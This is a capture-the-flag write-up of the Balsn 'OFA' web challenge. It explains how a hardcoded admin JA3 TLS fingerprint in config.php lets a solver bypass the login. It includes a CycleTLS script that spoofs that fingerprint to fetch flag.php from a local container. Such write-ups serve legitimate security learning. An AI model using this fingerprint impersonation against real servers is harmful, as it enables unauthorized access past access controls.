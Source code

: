```yaml
---

title: "OFA (Balsn)"
date: 2023-08-10T11:30:03+00:00
tags: ["web","JA3 impersonate"]
categories: ["CTFs"]
author: "0x0Pwn"
image: "/CTF/OFA.png"
comments: false
description: "This is a friendly server machine that is vulnerable because we can impersonate the JA3 signature."

---
```


## Room Information

- Room name: OFA
- Difficulty level: unknown (easy I think)
- Room link: https://balsnctf.com/challenges

![Untitled](/CTFs/OFA.png)

## Tools Used

- Docker
- Visual Studio
- Research

## Enumeration

On this type of machine, there is no need to analyse possible directories because it is not a BlackBox, we have all the code of the web page…

A screenshot of the website page:

![Untitled](/CTFs/1-OFA.png)

## Exploiting

After taking a look of the the firsts archives like index.php, I found one called config.php where i found very fast a vulnerability.

What the vulnerability did was the following: 

1- Define in a variable the JA3 signature that is unique for each client (coincidentally they leave the user admin signature here...). 

2- Then they compare it with the signature that is generated when you enter the web page with your browser…

![Untitled](/CTFs/2-OFA.png)

So the only thing left was to send a request to flag.php with the JA3 that was in config.php since that is the user admin, and we could bypass the login panel and access flag.php directly.

I learn some info of JA3 on this website → [Impersonating JA3 Fingerprints. Researchers: Max Harley, Matthew… | by Matthew Rinaldi | CU Cyber | Medium](https://medium.com/cu-cyber/impersonating-ja3-fingerprints-b9f555880e42)

Then I look for some scripts of JA3 impersonating and I found one which I then modify to this:

```tsx
const initCycleTLS = require('cycletls');
// Typescript: import initCycleTLS from 'cycletls';

(async () => {
  // Initiate CycleTLS
  const cycleTLS = await initCycleTLS();

  // Send request
  const response = await cycleTLS('https://localhost:8787/flag.php', {
    body: 'username=admin',
    ja3: '771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0',
    userAgent: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.60',
    headers:
    {
      'Content-Type' : 'application/x-www-form-urlencoded'
    }

  }, 'post');

  console.log(response);

  // Cleanly exit CycleTLS
  cycleTLS.exit();

})();
```

Then to compile the file I did on my cmd: `tsc ofa-srcipt.ts` and then to execute node `ofa-srcipt.js`

![Untitled](/CTFs/4-OFA.png)

And there is the flag…👹

## Lessons Learned

- What insights did you gain from the room?
    
    I learn more about JA3
    
- Where there any novel tools or techniques employed?
    
    The use of docker.
